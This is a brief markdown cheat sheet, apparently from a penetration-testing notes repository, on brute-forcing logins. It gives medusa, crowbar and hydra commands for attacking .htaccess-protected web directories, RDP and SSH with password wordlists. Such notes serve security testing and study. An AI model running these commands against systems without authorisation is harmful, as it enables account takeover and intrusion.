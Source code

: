 # Brute-Forcing

>  A brute-force attack consists of submitting many passwords or passphrases with the hope of eventually guessing correctly.

## .htaccess-protected web directory

```bash
#Change /admin with the name of the directory
medusa -h $IPADDRESS -u $USER -P $wordlist -M http -m DIR:/admin
```

_____

## RDP

```bash
#-n 1: number of threads
crowbar -b rdp -s $IPADDRESS -u $USER -C $WORDLIST -n 1
```

_____

## SSH

```bash
hydra -l $USER -P $WORDLIST ssh://$IPADDRESS
```
